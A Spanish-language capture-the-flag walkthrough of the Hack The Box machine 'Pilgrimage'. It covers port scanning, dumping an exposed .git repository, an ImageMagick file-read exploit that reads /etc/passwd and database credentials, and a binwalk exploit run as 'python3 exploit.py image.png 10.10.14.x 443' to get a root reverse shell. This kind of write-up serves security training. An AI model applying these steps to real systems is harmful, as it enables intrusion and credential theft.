 



# PortScan

```
nmap -sCV -p22,80 -oN targeted 10.10.11.219

Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 09:58:12 2023 -- 1 IP address (1 host up) scanned in 9.34 seconds
```

# Sitio Web


![[Pasted image 20231030160138.png]]

Tendríamos este sitio web, el cual podemos registrarnos, para loguerarnos y posterior a esto subir fotos, aunque no es necesario, pero sí nos logueamos sería más fácil para ver las fotos que hemos subido con su ruta de donde está subida.

Podemos analizar el código fuente, probar con credenciales básicas & default para intentar entrar como Root pero no encontaríamos nada, más no obstante al fuzzear la dirección del sitio web con "**GoBuster**", descubriríamos los siguientes directorios **Git**.

```
 gobuster dir -u http://pilgrimage.htb/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 20 -x php,html,js,txt


/.git/HEAD            (Status: 200) [Size: 23]
/.git/logs/           (Status: 403) [Size: 153]
/.git                 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/]
/.git/logs/.html      (Status: 403) [Size: 153]                                  
/.git/config          (Status: 200) [Size: 92]                                   
```

Vemos que el recurso **Git** que usualmente suele estar oculto está expuesto, estos podríamos descargarlo manualmente, pero sí indagamos podríamos encontrar herramientas qué descargan los recursos automáticamente, como por ejemplo esta [Git Dumper](https://github.com/arthaud/git-dumper), la cual nos descargará los recursos de la URL indicada con el directorio **/.git** indicado, sé recomienda leer cómo usarla en el repositorio de la misma herramienta.


![[Pasted image 20231030161111.png]]

Sí nos abrimos el "**index.php**".


![[Pasted image 20231030161308.png]]


Notaremos qué está usando el el "**Magick Convert**", para hacer un resize del %50, y meterlo en la ruta de descargar con un nuevo nombre, y la extensión de la imagen, y más abajo nos chiva la ruta absoluta donde está guardando esto.

al descargar los recursos, obtuvimos el binario del "**magick**", así que procedemos a ver la versión para poder ver si está desactualizada y es vulnerable a algo.

![[Pasted image 20231030161752.png]]

Sí indagamos en busca de vulnerabilidades de esta versión de **magick**, encontraríamos una vulnerabilidad de un "**Arbitrary File Read**" en [Exploit-DB](https://www.exploit-db.com/exploits/51261), la cuál nos facilita un [PoC](https://github.com/voidz0r/CVE-2022-44268), del cuál podemos aprovecharnos para crear imágenes "contaminadas" para aprovecharnos del File Read, y llevar a cabo un LFI.

Una vez subamos la imagen, nos descargamos la misma imagen en local con "wget" para visualizar los metadatos de la misma con "identify".

![[Pasted image 20231030163405.png]]

Nos representará una cadena en **hexadecimal**, la cual debemos convertir en texto claro para que sea legible y en éste caso ver el "/etc/passwd", en este caso usaremos un convertidor online para convertirlo en texto claro.

![[Pasted image 20231030163639.png]]


Como vemos hemos llevado a cabo un **LFI** y leído el passwd, pero sí intentamos listar las claves del .ssh no veremos nada, ni indagando encontraríamos nada interesante, por lo qué nos aprovechamos qué sabemos la ruta absoluta de la db, que es "**/var/db/pilgrimage**" para tratar de ver sí conseguimos credenciales.

![[Pasted image 20231030164035.png]]

En la cual al convertirla a texto plano encontraríamos las credenciales de **emily** para conectarnos a través de **SSH**.


# Escalada de Privilegios


Usamos **pspy64** para buscar posibles brechas qué podamos aprovechar para escalar nuestro privilegios a Root.

![[Pasted image 20231030164924.png]]

Vemos qué Root está ejecutando un script en bash, en el cual podemos leer y dentro tiene el siguiente código:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

El script monitorea el directorio `/var/www/pilgrimage.htb/shrunk/` en busca de archivos recién creados. Luego, verifica si el contenido de cada archivo contiene ciertas cadenas de texto prohibidas, como "Executable script" o "Microsoft executable". Si se encuentra alguna de estas cadenas, el archivo se elimina automáticamente, y lo está haciendo con el binario binwalk.

![[Pasted image 20231030165452.png]]

Cuyo versión **binwalk**, sí indagamos en busca de vulnerabilidades encontraremos qué podemos llevar a cabo un **RCE** con esta versión en específico según Exploit-DB, el cual ahí mismo nos proporciona un exploit programado en python para otorgarnos una Reverse Shell. [(Click aquí para ver exploit)](https://www.exploit-db.com/exploits/51249)

El cuál debemos ejecutarnos estando en la ruta "/var/www/pilgrimage.htb/shrunk" y indicar los parámetros de nuestra IP que estarmos escuchando y nuestro puerto.

```
python3 exploit.py image.png 10.10.14.x 443
```

![[Pasted image 20231030170607.png]]